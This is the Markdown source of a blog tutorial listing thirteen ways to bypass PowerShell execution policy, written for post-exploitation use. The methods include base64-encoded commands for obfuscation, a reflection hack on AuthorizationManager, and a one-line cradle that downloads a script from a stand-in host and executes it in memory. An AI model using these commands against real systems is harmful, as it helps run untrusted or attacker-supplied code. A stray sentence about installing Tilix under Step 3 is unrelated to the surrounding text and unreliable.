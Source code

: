 ```yaml
---
layout: post
title:  "How to Bypass PowerShell Execution Policy"
date:   2020-09-24 20:24:26 -0700
categories: PowerShell Execution Policy
---
```


<h1>Intro</h1>

PowerShell is an essential component of any Windows environment and can be a powerful tool in the hands of a hacker. During post-exploitation, PowerShell scripts can make privilege escalation and pivoting a breeze, but its execution policy can put a damper on even the best-laid plans. There are a variety of methods, however, that can be used to bypass PowerShell execution policy.

<h3>PowerShell Execution Policy Overview</h3>
The purpose of PowerShell's execution policy is to control how configuration files are loaded and how scripts are run. It's a safety feature that helps prevent malicious scripts from being executed. Policies can be set at the computer level, user level, and session level on Windows machines. It's important to note that the execution policy is not meant to be secure — it merely prevents users from unintentionally causing damage. As we'll soon find out, it can be bypassed in several ways.

There are seven types of execution policies in PowerShell. These are only enforced on Windows machines:

Unrestricted: This is the default policy for non-Windows machines; it means scripts will be run with a warning.
Restricted: This is the default for Windows machines; it prevents scripts from being run but allows individual commands.
Bypass: This means all scripts can run and there are no warnings.
AllSigned: This requires all scripts and configuration files to be signed by a trusted publisher — even those created on the local machine.
RemoteSigned: This is the default policy on Windows servers; requires a signature only from files downloaded from the internet.
Default: This simply sets the default execution policy.
Undefined: This is when there is no policy set in the current scope. If all scopes are Undefined, the execution policy defaults to Restricted. 

To view the current execution policy, issue the following command in PowerShell:


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

Now that we've covered the basics, let's get started on some bypasses.


<h4>Step 1: Bypass Flag </h4>
Perhaps the easiest way to bypass execution policy is to use the Bypass flag. Doing so will run the script with no warnings or prompts.

To do so, open PowerShell and type:

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h4>Step 2: Unrestricted Flag</h4>
Similar to the Bypass flag, we can use the Unrestricted flag to run our script, this time with a warning.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h4>Step 3: Command Switch</h4>
We can use the command switch to issue commands and directly run a script. This will work for simple scripts, but more complex ones will usually have errors.
Tilix is available in Kali's APT repositories and can be installed using the below command.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h4>Step 4: Encoded Command Switch</h4>
This method is similar to the command switch but encodes the script as a base64 encoded string. This can help avoid parsing errors as well as provide a layer of obfuscation.

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h4>Step 5: Invoke-Command</h4>
The Invoke-Command method is nice in that it can be used to issue commands against remote machines when PowerShell remoting has been enabled.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h4>Step 6: Invoke-Expression</h4>
We can use the Invoke-Expression method to pipe the contents of our script and be executed.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h4>Step 7: Download from URL</h4>
PowerShell can be used to download a script from the internet, or from an attacker's machine, and then be executed without writing to disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h4>Step 8: Paste</h4>
Another method to get around execution policy is to simply copy and paste the script into the interactive console. Again, this is useful for running quick scripts that aren't too complex.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h4>Step 9: Echo & Pipe</h4>
We can also echo the contents of our script into PowerShell standard input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h4>Step 10: Read & Pipe</h4>
Similar to the echo method, we can read the contents of our script and pipe it into PowerShell standard input.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h4>Step 11: Process Scope</h4>
The execution policy can be applied at different levels, including the currently controlled process. We can change the execution policy for the current process.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h4>Step 12: Current User Scope</h4>
This method is similar to the process scope but changes the execution policy for the current user. This works by modifying a registry key under the hood.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h4>Step 13: Authorization Manager Swap</h4>
The final method we'll cover essentially overrides a function in PowerShell. The AuthorizationManager function will be replaced with a null value when our function is called, setting the execution policy for the session to Unrestricted, and allowing our script to run.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}
